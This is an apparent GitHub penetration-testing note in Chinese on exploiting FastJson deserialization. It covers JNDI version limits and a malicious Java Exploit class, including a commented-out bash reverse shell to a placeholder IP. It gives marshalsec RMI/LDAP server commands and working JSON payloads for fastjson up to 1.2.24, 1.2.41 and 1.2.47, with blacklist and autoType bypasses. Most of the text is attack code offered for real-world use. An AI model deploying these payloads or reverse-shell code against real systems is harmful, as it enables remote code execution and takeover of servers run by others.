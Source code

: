 ### FastJson反序列化

**注意**：

1. autoTypeSupport属性为true才能使用。（fastjson>=1.2.25默认为false）

2. 存在java版本限制：
    基于rmi的利用方式：适用jdk版本：JDK 6u132, JDK 7u131, JDK 8u121之前。
    在jdk8u122的时候，加入了反序列化白名单的机制，关闭了rmi远程加载代码。
    基于ldap的利用方式：适用jdk版本：JDK 11.0.1、8u191、7u201、6u211之前。
    在Java 8u191更新中，Oracle对LDAP向量设置了相同的限制，并发布了CVE-2018-3149，关闭了JNDI远程类加载。
    可以看到ldap的利用范围是比rmi要大的，实战情况下推荐使用ldap方法进行利用。



利用：

构造自己的java类

```java
import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;

public class Exploit{
    public Exploit() throws Exception {
        Process p = Runtime.getRuntime().exec(new String[]{"touch","/tmp/success"});
      //Process p = Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","exec 5<>/dev/tcp/xx.xx.xx.xx/1888;cat <&5 | while read line; do $line 2>&5 >&5; done"});
        InputStream is = p.getInputStream();
        BufferedReader reader = new BufferedReader(new InputStreamReader(is));

        String line;
        while((line = reader.readLine()) != null) {
            System.out.println(line);
        }

        p.waitFor();
        is.close();
        reader.close();
        p.destroy();
    }

    public static void main(String[] args) throws Exception {
    }
}
```

利用javac生成class文件

开启http服务，并将class文件放在可访问目录

```
python3 -m http.server 9998
```

开启RMI服务或者LDAP服务

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://10.10.10.129:9998/#TouchFile" 9999 

java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.10.10.129:9998/#TouchFile" 9999
```



#### fastjson<=1.2.24

exp：

```
{
"b":{
          "@type":"com.sun.rowset.JdbcRowSetImpl",
          "dataSourceName":"rmi://10.10.10.129:9999/TouchFile",
          "autoCommit":true
    }
}
```

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220624115429.png)



#### fastjson<=1.2.41

第一个Fastjson反序列化漏洞爆出后，阿里在1.2.25版本设置了autoTypeSupport属性默认为false，并且增加了checkAutoType()函数，通过黑白名单的方式来防御Fastjson反序列化漏洞，因此后面发现的Fastjson反序列化漏洞都是针对黑名单的绕过来实现攻击利用的。 ```com.sun.rowset.JdbcRowSetImpl```在1.2.25版本被加入了黑名单，fastjson有个判断条件判断类名是否以”L”开头、以”;”结尾，是的话就提取出其中的类名再加载进来，因此在原类名头部加L，尾部加;即可绕过黑名单的同时加载类。

exp:

```
{"@type":"Lcom.sun.rowset.JdbcRowSetImpl;","dataSourceName":"rmi://x.x.x.x:1098/jndi", "autoCommit":true}
```



#### fastjson<=1.2.47

去年护网爆出的漏洞，对版本小于1.2.48的版本通杀，autoType为关闭状态也可使用。
 loadClass中默认cache设置为true，利用分为2步执行，首先使用java.lang.Class把获取到的类缓存到mapping中，然后直接从缓存中获取到了com.sun.rowset.JdbcRowSetImpl这个类，绕过了黑名单机制。

exp:

```
{
    "a": {
        "@type": "java.lang.Class", 
        "val": "com.sun.rowset.JdbcRowSetImpl"
    }, 
    "b": {
        "@type": "com.sun.rowset.JdbcRowSetImpl", 
        "dataSourceName": "rmi://x.x.x.x:1098/jndi", 
        "autoCommit": true
    }
}
```





